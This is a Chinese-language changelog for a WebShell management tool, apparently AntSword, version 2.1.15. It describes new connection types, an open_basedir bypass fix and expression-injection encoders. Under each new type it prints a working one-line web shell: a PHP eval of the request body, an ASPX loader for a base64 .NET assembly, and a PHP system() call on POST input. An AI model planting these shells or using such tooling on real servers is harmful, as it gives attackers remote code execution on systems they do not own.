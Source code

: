 # 更新日志
> 有空会补补BUG、添添新功能。    
> 同时也欢迎大家的参与！感谢各位朋友的支持！ .TAT.

## `v(2.1.15)`

### 核心

* 修复 PHP/PHP4 当前目录不可写时 bypass open_basedir 失败的 Bug
* 新增 PHPRAW 类型, 该类型支持的 WebShell 类似如下代码:

```php
<?php eval(file_get_contents("php://input"));?>
```

> 为了方便直连 Behinder3 WebShell, 编码器已内置。

* 新增 ASPXCSharp 类型

该类型支持的 WebShell 类似如下代码:

```
<%@ Page Language="c#"%>
<%
  String Payload = Request.Form["ant"];
  if (Payload != null)
  {
    System.Reflection.Assembly assembly = System.Reflection.Assembly.Load(Convert.FromBase64String(Payload));
    assembly.CreateInstance(assembly.GetName().Name + ".Run").Equals(null);
  }
%>
```

有关该类型的设计说明, 请参考[聊聊新类型ASPXCSharp](https://yzddmr6.com/posts/%E8%81%8A%E8%81%8A%E6%96%B0%E7%B1%BB%E5%9E%8BASPXCSharp/)

* 新增 PSWindows 类型，与 CMDLinux 类似

> 基于命令执行的一句话类型, 仅支持 Windows 环境

该类型支持的 WebShell 类似如下代码:

```php
<?php system($_POST["ant"]);?>
```

有关 PSWindows 的一些注意事项和原理说明, 请参考[新类型 PSWindows 预览](https://mp.weixin.qq.com/s/tPPg4VgQH-n2O3Lnfg8lVA)

* JSPJS 兼容各种表达式注入

> 具体请看 spelbase64、el、ognl 这三个内置编码器样例


### 数据管理

* 优化了编辑 Shell 信息时，URL后缀发生改变后连动修改「连接类型」功能
* 优化插件快捷设置,修正过多快捷设置后对UI影响(Fix #303)
* 修复 JSP/MySQL类型在表名中有特殊字符时执行异常的 Bug (thx @powersploit)


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino